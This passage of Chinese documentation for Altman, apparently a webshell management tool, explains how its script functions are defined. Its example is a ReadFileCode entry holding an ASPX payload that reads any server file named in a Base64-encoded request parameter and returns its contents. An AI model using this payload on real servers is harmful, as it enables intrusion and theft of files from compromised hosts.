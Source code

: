 ### 4.2 添加或修改脚本功能
以现有文件`aspxEval_BuiltIn.func`为例，其中：

```
<func>
  <name>ReadFileCode</name>
  <type>aspxEval,aspxEval_Cookie</type>
  <path>/FileManager</path>
  <funcParam location="Body" encrymode="Base64" >filePath</funcParam>
  <item><![CDATA[var P=System.Text.Encoding.Default.GetString(System.Convert.FromBase64String(Request.Item["$filePath$"]));
var m=new System.IO.StreamReader(P,Encoding.Default);
Response.Write(m.ReadToEnd());
m.Close();]]></item>
</func>
```

以上的代码，定义了一个ReadFileCode的方法，映射到/FileManager节点，`<item>`属性定义了这个方法的代码，这个方法需要一个参数filePath，这个参数使用了Base64加密。

-  如果需要更改ReadFileCode的实现代码，只需要更改`<item>`属性中的内容即可。

## 5.开放接口
程序采用了MEF插件架构，可以实现程序插件化，目前已经实现多个插件。

具体使用可详见插件开发文档。

## 6.Copyright
Altman and this documentation is:

Copyright ® 2013-2014 KeePwn. All rights reserved.
See `GPL V2` for complete license and permissions information.